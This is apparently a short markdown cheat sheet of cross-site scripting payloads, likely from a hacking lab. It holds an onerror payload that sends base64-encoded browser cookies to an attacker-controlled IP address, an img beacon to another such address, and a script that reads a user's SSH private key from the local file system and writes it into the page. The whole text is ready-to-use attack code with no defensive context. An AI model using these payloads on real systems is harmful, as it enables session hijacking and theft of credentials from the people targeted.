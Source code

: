 # XSS payloads

```text
<img src=http://10.10.14.28/abc />
<img src=x onerror=this.src="http://10.10.14.64/?cookie="+btoa(document.cookie)/>
```

XSS read local file

```text
<script>
x=new XMLHttpRequest;
x.onload=function() { document.write(this.responseText) };
x.open("GET","file:///home/reader/.ssh/id_rsa");
x.send();
</script>
```

